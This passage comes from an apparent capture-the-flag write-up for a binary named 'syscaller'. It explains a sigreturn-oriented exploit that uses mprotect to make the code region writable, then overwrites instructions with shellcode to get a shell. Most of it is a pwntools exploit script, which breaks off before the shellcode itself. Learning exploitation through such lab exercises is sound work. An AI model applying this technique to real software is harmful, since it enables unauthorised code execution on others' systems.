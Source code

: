 Also for which syscall to use, I choose `0x400104`. The reason for this, is immediately after that is a read syscall into `rsp` that we will use. When we do the initial sigreturn, we will set `rsp` to be equal to `0x40011a`, which is the instruction pointer immediately after the `syscall` to scan in our data. The reason for this, is that we are just going to overwrite the instructions there with our shellcode. That way after that syscall is finished executing, it will just run our shellcode and we will get a shell!

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

# Establish the target
target = process("./syscaller")
#gdb.attach(target, gdbscript='b *0x400104')

context.arch = "amd64"

# Initial registers to be popped
r12 = "0"*8
r11 = "1"*8
rdi = "0"*8
rax = p64(0xf)
rbx = "0"*8
rdx = "1"*8
rsi = "0"*8
rdi = "1"*8

# Form the payload for the registers to be popped
payload = ""
payload += r12
payload += r11
payload += rdi
payload += rax
payload += rbx
payload += rdx
payload += rsi
payload += rdi

# Make the sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400104
frame.rax = 0xa
frame.rdi = 0x400000
frame.rsi = 0x1000
frame.rdx = 0x7

frame.rsp = 0x40011a

# Append the sigreturn frame to the payload
payload += str(frame)

# Send the payload
target.sendline(payload)

# A Raw input for I/O purposes
raw_input()

# Send our shellcode
# I did not write this shellcode, it is from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
```